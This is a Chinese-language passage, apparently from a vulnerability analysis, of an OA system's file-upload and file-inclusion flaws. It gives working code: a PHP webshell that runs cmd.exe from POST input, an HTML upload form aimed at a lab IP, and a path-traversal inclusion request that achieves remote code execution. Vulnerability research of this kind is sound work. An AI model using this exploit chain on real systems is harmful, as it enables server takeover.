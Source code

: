 ![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57DJicf5wIXN3qY9jkGbAVo4ibXUUwt8HRYvoGPA56ILJaFEeIbSfuHU8rANujNm6ylQLKZ6sYrfuug/640?wx_fmt=png)

我们再接着向下看，

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57DJicf5wIXN3qY9jkGbAVo4xvKkJPrvBPeyuyD87nA31oWSt5Nh3VhLSozBkcreaDjaFNPR0unEng/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57DJicf5wIXN3qY9jkGbAVo45CrHRCoOiaym2jicNVbgyySlvxhLxiauSylEhJkOPnHJaXAWhq5yriac0Q/640?wx_fmt=png)

`120`行输出的`databack`里面有`CONTENT`，而这个变量包含了文件名，所以我们直接`POST`即可对`UPLOAD_MODE`和`MSG_CATE`赋值，通过`UPLOAD_MODE`为`1`的方法就可以解决文件名的问题，我们需要解决文件目录的问题了，这里无法通过`../`进行路径穿越，所以我们需要寻找一下文件包含的点，接下来我们来看`ispirit\interface\gateway.php`

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57DJicf5wIXN3qY9jkGbAVo4dsbcIZTicOMIBBj2ibtkOtwPxicuicGw7SN6JFvkHhueEPbc3PZm4dianfQ/640?wx_fmt=png)

其中`url`参数中含有`general/`、`ispirit/`、`module/`之一，那么就`include_once`变量`url`中的值，即可包含任意文件，分析完成后，我们开始进行利用，首先编写我们中途利用到的木马`1.jpg`

```
<?php
$phpwsh=new COM("Wscript.Shell") or die("Create Wscript.Shell Failed!");  
$exec=$phpwsh->exec("cmd.exe /c ".$_POST['cmd']."");  
$stdout = $exec->StdOut();  
$stroutput = $stdout->ReadAll();  
echo $stroutput;
?>
```

再构造如下界面进行上传。

```
<html>
<head>
</head>
<body>
    <form method="POST" action="http://172.16.200.153/ispirit/im/upload.php" enctype="multipart/form-data">
        <input  type="text"name='P' value = 1  ></input>
        <input  type="text"name='MSG_CATE' value = 'file'></input>
        <input  type="text"name='UPLOAD_MODE' value = 1 ></input>
        <input type="text"  value = 1></input>
        <input type="file" ></input>
        <input type="submit" ></input>
    </form>
</body>
</html>
```

然后将我们的木马上传上去。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57DJicf5wIXN3qY9jkGbAVo47bbhtovGKOvJvmnRK0ibWj9P44OjyPFUKFFUv8dhYju92ATT6A6Px3Q/640?wx_fmt=png)

得到了我们相应的文件位置`attach/im/2011/820599126.1.jpg`，之后利用`gateway.php`进行文件包含，并利用如下语句进行`RCE`

```
json={"url":"/general/../../attach/im/2011/820599126.1.jpg"}&cmd=dir
```
